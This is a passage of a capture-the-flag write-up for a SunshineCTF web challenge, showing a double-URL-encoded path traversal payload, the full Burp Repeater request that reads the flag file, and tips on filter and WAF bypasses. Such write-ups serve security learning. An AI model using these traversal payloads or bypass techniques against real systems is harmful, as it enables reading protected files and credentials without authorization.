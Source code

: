         ```python
        with open("./FLAG/flag.txt", "r") as f:
            FLAG = f.read()
        ```
        
    - This is a relative path, starting from the directory where `app.py` is executed. Based on our previously successful payload (`../../../app.py`), we determine the final path to the flag from the context of the download function is `../../../FLAG/flag.txt`.
    - We apply the same application filter bypass (`./` insertion) and Double URL Encoding technique to construct the final payload and read the `flag.txt` file.

---

## Exploitation Steps

The exploitation is a manual process using a browser and Burp Suite. The final payload used in Burp Repeater to retrieve the flag is constructed as follows.

1. **Target Path:** `../../../FLAG/flag.txt`
2. **Bypass Payload:** `.././.././../FLAG/flag.txt`
3. **Final Double URL Encoded Payload:**
    
    ```
    %252e%252e%252f%252e%252f%252e%252e%252f%252e%252f%252e%252e%252fFLAG%252fflag.txt
    
    ```
    
4. **Full HTTP Request (in Burp Repeater):**
    
    ```
    GET /admin/download/%252e%252e%252f%252e%252f%252e%252e%252f%252e%252f%252e%252e%252fFLAG%252fflag.txt HTTP/2
    Host: asteroid.sunshinectf.games
    Cookie: session=<your_valid_session_cookie>
    ... (other headers)
    
    ```
    

**Result (Flag)**

The response to the request above will be a `flag.txt` file containing the challenge flag.

`sun{lfi_blacklists_ar3_sOo0o_2O16_8373uhdjehdugyedy89eudioje}`

---

## Notes and Tips

- Always start a web challenge by checking for basic files like `robots.txt`, `sitemap.xml`, and any potentially exposed configuration files.
- When facing a WAF, try common bypass techniques such as URL encoding (single, double), using alternative characters (`\\`), and case variations.
- Different error messages (`400 Bad Request`, `404 Not Found`, custom application errors) are valuable clues. Analyze which layer (WAF, web server, or application) is returning the error to adapt your attack technique accordingly.
- If reading system files fails, always consider reading the application's own source code as a primary objective. It often contains credentials, logic flaws, or the flag itself.
